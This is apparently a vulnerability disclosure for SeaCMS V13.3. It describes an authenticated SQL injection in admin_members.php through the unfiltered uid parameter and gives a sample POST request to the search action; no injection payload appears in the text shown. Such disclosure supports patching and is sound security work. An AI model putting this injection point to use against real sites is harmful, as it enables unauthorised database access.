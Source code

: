 







Seacms V13.3 has an SQL injection vulnerability that allows an authenticated attacker to exploit the database.

Download address：https://www.seacms.com/download/

![image-20250114112516349](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250114112516349.png)



The vulnerability is located in the admin_members.php file, starting from line 9, first check whether the value of the $ac variable is equal to 'search', if the value of $ac is 'search', then further check whether the search criteria are provided, and if the search criteria is empty, it will prompt an error message. If the search criterion exists, the code continues down to construct the SQL query statement, and if $uid is not empty, add it to the $wheresql string to construct the IN query criterion for the id. If $uname is not empty, use the str_replace() function to replace * with %, since % is used as a wildcard in SQL, and then add it to the $wheresql string to construct the LIKE query condition. Remove the and at the end of the $wheresql string, construct a complete SQL query, and execute the query using the $dsql object. After reading this code, it is almost enough to know that when building SQL queries, directly insert the variable ($uid) for query, and do not set the relevant filter conditions, use) closure can control the variable to cause SQL injection problems.



![image-20250114113159919](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250114113159919.png)







```
POST /seacms/51fek7/admin_members.php?ac=search HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Referer: http://192.168.80.152/seacms/51fek7/admin_members.php
Cookie: PHPSESSID=s5fhh9q24e7k8rjpi28g6o3j40; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MTA6InBocCB8IHBocD8iO3M6MzoiYWxsIjtpOjA7czozOiJodGEiO2k6MTt9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

uname=1&uid=1&Submit=%E6%90%9C+%E7%B4%A2
```



![image-20250114110817890](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250114110817890.png)


